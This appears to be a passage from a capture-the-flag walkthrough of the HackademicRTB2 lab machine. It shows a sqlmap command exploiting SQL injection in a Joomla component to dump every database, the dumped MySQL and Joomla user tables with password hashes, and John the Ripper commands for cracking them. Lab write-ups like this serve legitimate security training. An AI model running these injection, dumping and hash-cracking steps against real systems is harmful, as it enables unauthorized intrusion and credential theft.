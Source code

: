 After a little time, we found SQLi in Joomla and dumped the whole database:
{% codeblock %}
root@kali32:/tmp# sqlmap -u "http://192.168.80.150:666/index.php?option=com_abc&view=abc&letter=test"  -p letter --dump-all
{% endcodeblock %}

Trying to crack MySQL hashes was without success.
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.150/dump/mysql# cat user-f3649c95.csv 
Host,User,Password,ssl_type,Drop_priv,File_priv,Grant_priv,Super_priv,Alter_priv,ssl_cipher,Index_priv,Event_priv,Create_priv,max_updates,Reload_priv,Delete_priv,Insert_priv,x509_issuer,Select_priv,Update_priv,Execute_priv,Show_db_priv,x509_subject,Process_priv,Trigger_priv,Shutdown_priv,max_questions,Show_view_priv,References_priv,max_connections,Repl_slave_priv,Repl_client_priv,Create_user_priv,Create_view_priv,Lock_tables_priv,Alter_routine_priv,Create_routine_priv,max_user_connections,Create_tmp_table_priv
localhost,root,*5D3C124406BF85494067182754131FF4DAB9C6C7,<blank>,Y,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,Y,<blank>,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,0,Y,Y,Y,Y,Y,Y,Y,0,Y
HackademicRTB2,root,*5D3C124406BF85494067182754131FF4DAB9C6C7,<blank>,Y,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,Y,<blank>,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,0,Y,Y,Y,Y,Y,Y,Y,0,Y
127.0.0.1,root,*5D3C124406BF85494067182754131FF4DAB9C6C7,<blank>,Y,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,Y,<blank>,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,0,Y,Y,Y,Y,Y,Y,Y,0,Y
localhost,debian-sys-maint,*F36E6519B0B1D62AA2D5346EFAD66D1CAF248996,<blank>,Y,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,Y,<blank>,Y,Y,Y,Y,<blank>,Y,Y,Y,0,Y,Y,0,Y,Y,Y,Y,Y,Y,Y,0,Y
localhost,phpmyadmin,*5D3C124406BF85494067182754131FF4DAB9C6C7,<blank>,N,N,N,N,N,<blank>,N,N,N,0,N,N,N,<blank>,N,N,N,N,<blank>,N,N,N,0,N,N,0,N,N,N,N,N,N,N,0,N

root@kali32:~/.sqlmap/output/192.168.80.150/dump/mysql# cat user-f3649c95.csv | cut -d, -f2-3 | sed 's#,#:#' > hashes.csv
root@kali32:~/.sqlmap/output/192.168.80.150/dump/mysql# john --format=mysql-sha1 hashes.csv
{% endcodeblock %}

We parse the Joomla usernames and passwords and crack using John:
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.150/dump# cat joomla/jos_users.csv 
id,gid,name,email,block,params,username,usertype,password,sendEmail,activation,registerDate,lastvisitDate
62,25,Administrator,admin@hackademirtb2.com,0,admin_language=\nlanguage=\neditor=\nhelpsite=\ntimezone=0\n\n,Administrator,Super Administrator,08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl,1,<blank>,2011-01-17 19:31:21,2011-01-22 16:38:49
63,18,John Smith,JSmith@hackademicrtb.com,0,admin_language=\nlanguage=\neditor=\nhelpsite=\ntimezone=0\n\n,JSmith,Registered,992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF,0,<blank>,2011-01-22 10:17:30,2011-01-25 15:02:13
64,18,Billy Tallor,BTallor@hackademic.com,0,admin_language=\nlanguage=\neditor=\nhelpsite=\ntimezone=0\n\n,BTallor,Registered,abe1ae513c16f2a021329cc109071705:FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy,0,<blank>,2011-01-22 10:18:06,0000-00-00 00:00:00

root@kali32:~/.sqlmap/output/192.168.80.150/dump# cat joomla/jos_users.csv | cut -d, -f 7,9 | sed -e 's/:/\$/' -e 's/,/:/'  
username:password
Administrator:08f43b7f40fb0d56f6a8fb0271ec4710$n9RMVci9nqTUog3GjVTNP7IuOrPayqAl
JSmith:992396d7fc19fd76393f359cb294e300$70NFLkBrApLamH9VNGjlViJLlJsB60KF
BTallor:abe1ae513c16f2a021329cc109071705$FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy
